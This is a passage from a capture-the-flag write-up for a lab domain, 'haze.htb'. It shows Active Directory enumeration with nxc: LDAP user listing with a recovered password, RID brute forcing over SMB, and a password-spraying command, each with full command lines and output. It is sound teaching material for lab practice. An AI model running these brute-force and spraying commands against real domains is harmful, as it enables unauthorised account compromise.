 After reviewing the BloodHound data, we see that the `paul.taylor` user is inside the **Restricted Users** OU:

![image.png](image%206.png)

We can also see that there are many unresolved domain objects on the current BloodHound data, meaning that the `paul.taylor` user has limited visibility over the domain:

![image.png](image%207.png)

Trying to enumerate valid domain users using `nxc`, we also see that only the `paul.taylor` user shows up:

```bash
nxc ldap 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --users
```

```bash
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.10.11.61     389    DC01             [*] Enumerated 1 domain users: haze.htb
LDAP        10.10.11.61     389    DC01             -Username-                    -Last PW Set-       -BadPW-  -Description-  
LDAP        10.10.11.61     389    DC01             paul.taylor                   2025-06-26 18:11:34 0
```

### RID Brute Forcing

We can use `nxc` to enumerate users by bruteforcing the RIDs on the target host:

```bash
nxc smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute
```

```bash
...
SMB         10.10.11.61     445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.10.11.61     445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.10.11.61     445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.10.11.61     445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.10.11.61     445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.10.11.61     445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```

### Password Spraying

We compile the discovered usernames into a wordlist and spray the password for the `paul.taylor` user against them:

```bash
cat users1 | grep SidTypeUser | awk '{print $6}' | cut -d '\' -f2 > users.txt
nxc ldap 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
```
